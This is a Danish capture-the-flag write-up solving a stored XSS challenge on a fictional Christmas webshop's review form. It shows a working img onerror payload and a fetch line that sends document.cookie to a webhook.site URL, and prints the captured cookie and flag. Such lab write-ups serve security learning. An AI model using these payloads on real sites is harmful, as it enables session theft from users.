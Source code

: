 # Opgave

Velkommen til Det Nordiske Værksted

Frej har endelig fundet sin hjerteven, i hans helt egen webshop.

Det Nordiske Værksted er stedet, hvor kunder ikke bare køber julepynt, men også går på opdagelse i en verden af nordisk inspiration. Mange besøgende elsker at tage sig tid til at kigge rundt på siden, nyde udvalget og lade sig opsluge af stemningen.

Men er den helt sikker?

http://nordiskevaerksted.jul.fdca.dk:5000/ 

---

# Løsning

Hjemmeisden er en webshop, hvor man kan købe ting og skrive anmeldelser.

Efter man har lavet anmeldelsen vil de blive vist på skærmen, hvilket får mig til at tro at vi skal lave XSS.

Jeg prøver derfor at skrive `<script>alert('XSS')</script>` i både navn og anmeldse feltet for at teste om det virker og her bliver alt teksten fjernet, hvilket kunne tyde på at der er saniteret for scripts i inputtet.

Jeg prøver derfor at lave en anmeldelse med `<img src="x" onerror="alert('XSS')">` og det virker så det er kun <script> tags der bliver fjernet.

Jeg kan også se at jeg har en cookie med en `visitor_id`, som jeg måske skal bruge til at stjæle en andens cookie.

Jeg bruger en webhook.site som er en hjemmeside der kan skabe et URL og se alt hvad der bliver sendt til det URL.

Jeg smider derfor denne kode ind som anmeldelse: `<img src="x" onerror="fetch('https://webhook.site/4a054488-09c9-4b34-bf97-04409e064152?cookie=' + document.cookie)">`

Jeg går så ind på webhook.site og får ikke umiddelbart noget interessant andet end min egen cookie. Det viste sig dog at man bare skal vente lidt og efter lidt tid fik jeg en request med denne cookie: **visitor_id=a578e7f0-fc80-4081-8728-dd3d60feed1b; Flag=FDCA{N0gle_g4ng3_sk41_m4n_v3nt3}**

Flaget er dermed: **Flag=FDCA{N0gle_g4ng3_sk41_m4n_v3nt3}**

---
